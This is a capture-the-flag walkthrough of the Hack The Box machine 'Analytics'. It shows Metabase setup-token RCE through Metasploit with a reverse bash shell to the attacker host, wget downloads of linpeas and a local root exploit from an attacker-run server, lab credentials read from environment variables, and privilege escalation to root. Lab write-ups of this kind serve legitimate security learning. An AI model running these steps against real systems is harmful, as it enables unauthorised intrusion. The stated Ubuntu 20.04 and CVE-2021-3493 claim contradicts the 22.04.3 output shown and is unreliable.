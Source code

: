 ```yaml
---
layout: post
title: Analytics
date: '2023-11-07 07:40:44 +0300'
image: /assets/img/cover_images/41.png
categories: [HTB]
---
```


## Machine Info
Analytics is an easy linux machine which leverages Metabse RCE and Ubuntu OverLaysFs Local privesc

## ENUMERATION
We perform a simple scan for top 100 ports

```bash
nmap -sV -sC -top-ports 100 10.10.11.233
```

output

```bash
Nmap scan report for analytical.htb (10.10.11.233)
Host is up (0.88s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Analytical
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.83 seconds
```

Since we have port 80(HTTP) open we add the ip to our hosts file 

```bash
echo '10.10.11.233 analytical.htb' | sudo tee -a /etc/hosts
```

After opening the browser we click the login button and we are directed to another subdomain. We proceed again and add it to the hosts list

![img-description](/assets/img/analytical/1.png)

```bash
echo '10.10.11.233 data.analytical.htb' | sudo tee -a /etc/hosts
```

We get a metabase login page. We google for any available exploits for the service.

![img-description](/assets/img/analytical/2.png)

After some google searching i came across this [CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)

We proceed to msfconsole since the exploit is available
```bash
msf6 > search metabase

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/http/metabase_setup_token_rce  2023-07-22       excellent  Yes    Metabase Setup Token RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/metabase_setup_token_rce

msf6 > use 0
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/metabase_setup_token_rce) > 
```

Use show options command to see the options required and set them

```bash
msf6 exploit(linux/http/metabase_setup_token_rce) > set RHOST data.analytical.htb
RHOST => data.analytical.htb
msf6 exploit(linux/http/metabase_setup_token_rce) > set RPORT 80
RPORT => 80
msf6 exploit(linux/http/metabase_setup_token_rce) > set LHOST tun0
LHOST => 10.10.16.54
```
Lets run the exploit and boom "WE ARE IN"

```bash
msf6 exploit(linux/http/metabase_setup_token_rce) > run

[*] Started reverse TCP handler on 10.10.16.54:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.46.6
[+] Found setup token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[*] Sending exploit (may take a few seconds)
[*] Command shell session 1 opened (10.10.16.54:4444 -> 10.10.11.233:52878) at 2023-11-07 08:14:43 +0300

id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
whoami
metabase
```

Next we need to get and run linpeas to see if we can get something misconfigured in the system. We start our python server to upload linpeas
```bash
sudo python -m http.server 80
```

```bash
cd /home/metabase
wget http://10.10.16.54/linpeas.sh
```

```bash
bash linpeas.sh
```

After running linpeas.sh we get META_USER and META_PASS in the environment variables

```bash
╔══════════╣ Environment
╚ Any private information inside environment variables?
SHELL=/bin/sh
MB_DB_PASS=
HISTSIZE=0
HOSTNAME=1786d82953d0
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/home/metabase
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
HISTFILE=/dev/null
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=7
MB_DB_USER=
```

We ssh into the machine with the credentials 
```bash
ssh metalytics@10.10.11.233
password: An4lytics_ds20223#
```

```bash
metalytics@analytics:~$ ls
1  m  tmp  u  user.txt  w
```
## PRIVILEGE ESCALATION

We check the os version and find it is Ubuntu 20.04 LTS which has a public [CVE-2021-3493](https://github.com/briskets/CVE-2021-3493?source=post_page-----bd3421cba76d--------------------------------)
```bash
metalytics@analytics:~$ cat /etc/os-release
PRETTY_NAME="Ubuntu 22.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.3 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy
```

We download the exploit and compile it on our local machine
```bash
gcc exploit.c -o exploit
```

We start our server again and get the exploit
```bash
sudo python -m http.server 80
``` 

```bash
wget http://10.10.16.54/exploit
```

We change the permissions of the file and run it. We are now r00t

```bash
metalytics@analytics:~$ chmod +x exploit
metalytics@analytics:~$ ./exploit
bash-5.1#
```

![img-description](/assets/img/analytical/3.png)
